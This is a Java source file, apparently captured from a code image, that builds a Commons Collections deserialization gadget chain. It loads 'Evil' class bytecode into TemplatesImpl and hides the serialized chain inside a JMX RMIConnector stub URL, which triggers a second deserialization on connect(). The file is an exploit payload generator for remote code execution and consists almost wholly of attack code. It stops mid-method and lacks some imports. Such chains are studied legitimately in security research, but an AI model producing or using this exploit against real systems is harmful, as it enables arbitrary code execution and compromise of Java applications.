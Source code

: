 ```java
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC_RMIConnector {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static HashMap getObject() throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ClassPool.getDefault().get(Evil.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, obj);


        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(obj);

        setFieldValue(lazyMap,"factory", transformer);

        return expMap;
    }

    public static void main(String[] args) throws Exception {
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();

        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());

        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,"factory", invokerTransformer);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
```